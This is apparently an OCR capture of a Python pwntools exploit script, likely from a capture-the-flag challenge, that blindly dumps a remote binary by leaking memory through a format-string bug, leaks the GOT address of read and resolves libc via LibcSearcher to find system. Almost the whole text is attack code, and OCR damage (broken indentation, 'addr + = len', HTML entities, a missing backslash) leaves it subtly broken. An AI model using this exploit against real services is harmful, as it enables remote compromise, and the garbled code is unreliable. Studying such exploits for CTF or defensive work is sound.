 ```

def getbinary():

    addr = 0x400000

    f = open('binary', 'w')

    while addr < 0x401000:

        data = leak(addr)

        if data is None:

            f.write('\xff')

            addr += 1

elif len (data) == 0:
            f.write('\x00')

            addr += 1

        else:

            f.write(data)

addr + = len (data)
    f.close()





##getbinary()

read_got = 0x601020

printf_got = 0x601018

sh = remote(ip, port)

## let the read get resolved

sh.sendline('a')

sh.recv()

## get printf addr

payload = '%00008$s' + 'STARTEND' + p64(read_got)

sh.sendline(payload)

data = sh.recvuntil (&#39;STARTEND&#39;, drop = True) .ljust (8, &#39;x00&#39;)
sh.recv()

read_addr = u64(data)



## get system addr

libc = LibcSearcher('read', read_addr)
```